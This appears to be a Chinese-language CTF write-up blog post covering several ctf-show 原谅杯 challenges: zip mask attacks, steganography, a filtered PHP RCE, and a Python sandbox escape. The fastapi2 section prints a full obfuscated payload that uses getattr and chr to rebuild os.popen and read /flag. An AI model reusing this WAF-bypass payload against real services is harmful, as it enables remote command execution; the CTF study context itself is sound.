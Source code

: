 ﻿title: ctf-show_原谅杯wp
categories: [CTF]
tags: [wp,web,mics]

---

趁着双十一嘛,在集训的时候摸鱼去原谅杯看了看
<!--more-->

## 原谅1

进入题目看到的就是一张抽象图片.

![image-20201112124008591]( image-20201112124008591.png)

推测应该暗示压缩包密码,前几位推测是`1317`后面不知道于是采用掩码攻击.

得到密码后提取压缩包得到一个1.jpg.用stegsolve找到flag.

![image-20201112124424057]( image-20201112124424057.png)

## 原谅2

考的是文件隐写与火星文加密.

用binwalk 提前压缩包,发现出了个hint.txt

![image-20201112122935678]( image-20201112122935678.png)

打开发现疑似有火星文加密.

解密:`佛曰wohsftc学废了适就是压缩包的key`(之前刚做的时,把wohsftc倒置了,结果发现不用倒置)

用解出的密码,解压压缩包就得到了flag



## 原谅3

一个php的rce但是过滤了很多读取文件的命令,最后发现可以用php来读取出来.(php tql!)

![image-20201112124830058]( image-20201112124830058.png)

## 原谅5_fastapi2

进入发现是个python的远程rce,但过滤了不少.而且返回值类型还有了限制.

偶然间发现dir函数还没被过滤.执行查看.

![image-20201112115723078]( image-20201112115723078.png)

发现有一个奇怪的变量`kiword`,查看一下发现了'chr'字符串

![image-20201112115753581]( image-20201112115753581.png)

由于有dir()函数在,推测环境中`__builtins__`及其类中含有的方法也在环境中.

所以尝试用getattr方法绕waf获得flag.

经过尝试通过`getattr(__builtins__,kiword)`获得了chr函数

再通过chr函数拼接出更多的字符串.再利用getattr方法套娃来构造:

`__import__("os").popen().read`

从而获得对面的shell来读取flag.

payload:

```
q=getattr(getattr(__builtins__,getattr(__builtins__,kiword)(95)+getattr(__builtins__,kiword)(95)+getattr(__builtins__,kiword)(105)+getattr(__builtins__,kiword)(109)+getattr(__builtins__,kiword)(112)+getattr(__builtins__,kiword)(111)+getattr(__builtins__,kiword)(114)+getattr(__builtins__,kiword)(116)+getattr(__builtins__,kiword)(95)+getattr(__builtins__,kiword)(95))(getattr(__builtins__,kiword)(111)+getattr(__builtins__,kiword)(115)),getattr(__builtins__,kiword)(112)+getattr(__builtins__,kiword)(111)+getattr(__builtins__,kiword)(112)+getattr(__builtins__,kiword)(101)+getattr(__builtins__,kiword)(110))(getattr(__builtins__,kiword)(99)+getattr(__builtins__,kiword)(97)+getattr(__builtins__,kiword)(116)+getattr(__builtins__,kiword)(32)+getattr(__builtins__,kiword)(47)+getattr(__builtins__,kiword)(102)+getattr(__builtins__,kiword)(108)+getattr(__builtins__,kiword)(97)+getattr(__builtins__,kiword)(103)).read()
```



